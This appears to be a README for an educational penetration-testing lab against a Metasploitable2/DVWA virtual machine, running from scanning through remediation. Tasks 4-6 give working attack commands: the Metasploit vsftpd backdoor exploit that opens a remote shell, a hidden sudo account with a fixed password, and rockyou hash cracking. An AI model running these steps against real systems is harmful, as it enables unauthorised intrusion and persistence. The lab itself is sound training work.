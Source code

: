 # 🛡️ Penetration Testing and Remediation on a Target System

## 🎯 OBJECTIVES -
To conduct a structured penetration test using ethical hacking techniques on a deliberately vulnerable virtual machine. The objective is to simulate a real-world attack scenario and then provide recommendations for remediation. 
##

## 💻 LAB ENVIRONMENT -
|Component         |  Details                             |
|------------------|--------------------------------------|
|Attacker Machine  |  Kali Linux (Latest Version)         |
|Target Machine    |  Metasploitable2 / DVWA              |
|Network Type      |  Host-Only or NAT (VMware/VirtualBox)|
|Target IP         |  192.168.56.101 (example)            |
##

## 🚀 TASK PERFORMED –
### 🔍 Task 1: Basic Network Scanning
Purpose: Identify open and potentially vulnerable ports and services.

Command:

nmap -sS -sV -T4 -Pn 192.168.56.101

Expected Output:

|PORT   | STATE | SERVICE | VERSION                                     |
|-------|-------|---------|---------------------------------------------|
|21/tcp | open  | ftp     | vsftpd 2.3.4                                |
|22/tcp | open  | ssh     | OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)|

Open Services Analysis:

FTP (21): Unauthenticated access or vulnerable versions.

SSH (22): Brute-force potential.
###

### 🕵️‍♀️ Task 2: Reconnaissance
Purpose: To identify web-based vulnerabilities and sensitive files.

Command:

nikto -h http://192.168.56.101

Expected Output:

+ Server: Apache/2.2.8 (Ubuntu)
  
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
  
#### 🔐 Hidden Services Example:
phpinfo.php: Often left during development.

/test/ or /backup/ folders may contain credentials or outdated code.

#### 🛠️ Extra Tool:
dirb http://192.168.56.101
###

### 📝 Task 3: Enumeration Summary
Purpose: To gather detailed information about services, users, and shares.

Command (Samba Enumeration):

enum4linux -a 192.168.56.101

Expected Output:

Users: admin, user1, guest

Shares: IPC$, ADMIN$, Public, tmp

Machine Name: METASPLOITABLE
###

### 💥Task 4: Exploitation of Services
Exploit Example: vsftpd 2.3.4 Backdoor

msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS 192.168.56.101

run

Expected Output:

Backdoor service has been spawned.

Command shell session 1 opened (192.168.56.102:4444 -> 192.168.56.101:6200)
###

### 👤 Task 5: Creating A Privileged User
Command inside Shell:

useradd -m hacker

echo 'hacker:hacked123' | chpasswd

usermod -aG sudo hacker

Expected Output:

uid=1001(hacker) gid=1001(hacker) groups=1001(hacker),27(sudo)
###

### 🥷 Task 6: Cracking Password Hash
Command:

Crack Using John:

john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Expected Output:

hacked123 (hacker)
###

### 🔧 Task 7: Remediation And Recommendations
|Issue                              | Risk                      | Recommendation                         |
|-----------------------------------|---------------------------|----------------------------------------|
|vsftpd 2.3.4 with backdoor         | Remote shell access       | Disable FTP or update to latest version|
|Web server exposes /phpinfo.php    | Sensitive info disclosure | Remove or restrict access              |
|Default users found via enum4linux | Easy brute-force          | Remove or rename default account       |
|Weak password found                | Easy to crack             | Use strong, complex passwords          |
###

## 📚 CONCLUSION -
This project demonstrated a typical penetration testing workflow including scanning, enumeration, exploitation, and remediation planning. The vulnerabilities identified are common in many legacy or misconfigured systems and serve as practical learning examples for both aspiring ethical hackers and defenders.
##

## ⚠️ DISCLAIMER -
This project is strictly for educational purposes. All activities were conducted in a closed virtual environment with no access to external or live systems.
##
